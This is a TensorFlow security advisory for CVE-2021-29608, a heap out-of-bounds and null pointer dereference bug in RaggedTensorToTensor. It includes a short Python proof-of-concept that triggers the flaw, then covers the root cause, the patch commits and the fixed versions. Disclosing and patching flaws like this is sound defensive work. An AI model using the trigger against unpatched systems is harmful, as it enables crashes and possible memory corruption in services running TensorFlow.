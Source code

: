 ## TFSA-2021-095: Heap OOB and null pointer dereference in `RaggedTensorToTensor`

### CVE Number
CVE-2021-29608

### Impact
Due to lack of validation in `tf.raw_ops.RaggedTensorToTensor`, an attacker can
exploit an undefined behavior if input arguments are empty:

```python
import tensorflow as tf

shape = tf.constant([-1, -1], shape=[2], dtype=tf.int64)
values = tf.constant([], shape=[0], dtype=tf.int64)
default_value = tf.constant(404, dtype=tf.int64)
row = tf.constant([269, 404, 0, 0, 0, 0, 0], shape=[7], dtype=tf.int64)
rows = [row]
types = ['ROW_SPLITS']

tf.raw_ops.RaggedTensorToTensor(
  shape=shape, values=values, default_value=default_value,
  row_partition_tensors=rows, row_partition_types=types)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/656e7673b14acd7835dc778867f84916c6d1cac2/tensorflow/core/kernels/ragged_tensor_to_tensor_op.cc#L356-L360)
only checks that one of the tensors is not empty, but does not check for the
other ones.

There are multiple `DCHECK` validations to prevent heap OOB, but these are no-op
in release builds, hence they don't prevent anything.

### Patches
We have patched the issue in GitHub commit
[b761c9b652af2107cfbc33efd19be0ce41daa33e](https://github.com/tensorflow/tensorflow/commit/b761c9b652af2107cfbc33efd19be0ce41daa33e)
followed by GitHub commit
[f94ef358bb3e91d517446454edff6535bcfe8e4a](https://github.com/tensorflow/tensorflow/commit/f94ef358bb3e91d517446454edff6535bcfe8e4a)
and GitHub commit
[c4d7afb6a5986b04505aca4466ae1951686c80f6](https://github.com/tensorflow/tensorflow/commit/c4d7afb6a5986b04505aca4466ae1951686c80f6).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick these
commits on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
